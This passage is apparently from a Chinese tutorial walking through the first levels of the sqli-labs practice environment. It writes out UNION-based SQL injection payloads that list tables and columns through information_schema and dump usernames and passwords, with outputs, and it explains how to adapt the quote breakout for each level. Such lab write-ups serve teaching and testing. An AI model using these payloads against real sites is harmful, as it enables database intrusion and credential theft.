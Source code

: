 用`information_schema`数据库中的`tables`表爆`security`数据库的所有表名：

```sql
id=1' AND 1=2 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 -- 
=> SELECT * FROM users WHERE id='1' AND 1=2 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 -- ' LIMIT 0,1
			-- Login name: emails,referers,uagents,users	-- Password: 3
```

猜测`users`表存放着用户数据。用`information_schema`数据库中的`columns`表，爆`security`数据库中`users`表的所有列名：

```sql
id=1' AND 1=2 UNION SELECT 1,(SELECT GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'),3 --+
=> SELECT * FROM users WHERE id='1' AND 1=2 UNION SELECT 1,(SELECT GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'),3 -- ' LIMIT 0,1
			-- Login name: id,username,password		-Password: 3
```

根据列名爆全表：

```sql
id=1' AND 1=2 UNION SELECT 1,(SELECT GROUP_CONCAT(username) FROM security.users),(SELECT GROUP_CONCAT(password) FROM security.users) --+
SELECT * FROM users WHERE id='1' AND 1=2 UNION SELECT 1,(SELECT GROUP_CONCAT(username) FROM security.users),(SELECT GROUP_CONCAT(password) FROM security.users) -- ' LIMIT 0,1
			-- Login name: Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
			-- Password: Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
```

### §1.3.2 第2关 不绕过

先按正常流程试一遍：

- `id=1`，正常
- `id=1'`，报错，`Wrong syntax near '' LIMIT 0,1' at line 1`
- `id=1''`，报错，`Wrong syntax near ''' LIMIT 0,1' at line 1`

至此可推断，SQL语句肯定没有形如`'id'`的部分，而是直接将`id`暴露在外。只需将第1关中的payload从`id=1'`改为`id=1`即可，其余步骤同上。

### §1.3.3 第3关 绕过`('')`

先按正常流程试一遍：

- `id=1`，正常
- `id=1'`，报错，`Wrong syntax near ''1'') LIMIT 0,1' at line 1`
- `id=1''`，正常

因为两个单引号正常，所以一定有``''`。容易发现，相比与第2关，单引号报错多了一个右括号。将`1'`看作一个整体，报错信息给出的部分语句形如`'$id') LIMIT 0,1`，立即可以推测出语句为`WHERE ?=('$id')`。只需将第1关中的payload从`id=1'`改为`id=1')`即可，其余步骤同上。

### §1.3.4 第4关 绕过`("")`

先按正常流程试一遍：
